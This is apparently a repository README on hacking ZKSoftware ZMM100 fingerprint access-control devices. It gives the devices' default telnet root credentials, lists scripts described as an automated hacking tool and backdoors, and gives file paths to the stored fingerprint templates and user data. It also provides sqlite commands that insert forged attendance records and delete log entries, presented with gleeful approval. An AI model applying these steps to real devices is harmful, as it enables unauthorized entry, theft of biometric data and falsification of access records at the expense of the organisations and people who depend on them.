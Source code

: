 # Hacking Embedded Devices :

```
Hardware platform ZMM100 :
The fingerprint access control device Made by ZKSoftware.
```

* - Default User/Password : __root:solokey__
- Protocol : Telnet (23).

## Scripts :
 * __pwnit.py__ : Automated tool for hacking devices.
 * __hell__ : second backdoor.
 * __leak-data.sh__ : third backdoor.
 
 
 
## YouTube Video :

![image alt text](https://i.imgur.com/lxZCj4Z.png)
[https://www.youtube.com/watch?v=Zd1N0CbvR0k](https://www.youtube.com/watch?v=Zd1N0CbvR0k&feature=youtu.be)

## Change root password :

```
passwd
{ enter new root password }
cp /etc/passwd /mnt/mtdblock
cp /etc/passwd /mnt/mtdblock/data/
```

## More Info :

```
This directory "mnt/ramdisk" contains : picture.jpg , finger.bmp.
Web directory  "/mnt/mtdblock/service/webserver" contains : some shitty csl web files lol.
Database here : "/mnt/mtdblock/data/ZKDB.db"
Important tables : "ATT_LOGS" ( user logs ) , "USER_INFO" ( user informations ) , "fptemplate10"  ( finger print data ).
-- https://i.imgur.com/yNfVNSH.png ( ATT_LOGS ).
-- https://i.imgur.com/ujiIqzf.png ( USER_INFO ).
-- https://i.imgur.com/ilGwFZB.png ( fptemplate10 ).

> https://github.com/adrobinoga/zk-protocol/blob/master/sections/data-user.md#example-of-a-template-entry
SQLite ELF File : "/mnt/mtdblock/data/sqlite3_arm" --> ./sqlite3_arm ZKDB.db;

```

### Insert / Delete DATA :

> Insert : ./sqlite3_arm ZKDB.db "INSERT INTO ATT_LOG VALUES (null,__'1224__,15,__'2019-04-12T00:00:00'__,'0','0',null,null,null,null,0);"
> Delete log : ./sqlite3_arm ZKDB.db "DELETE FROM ATT_LOG WHERE ID = __1224__;"
> Shit its amazing 3:) !


 #### References :
https://blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware_2920.html
https://github.com/linsir/pyscripts/tree/master/zkteco_check_in
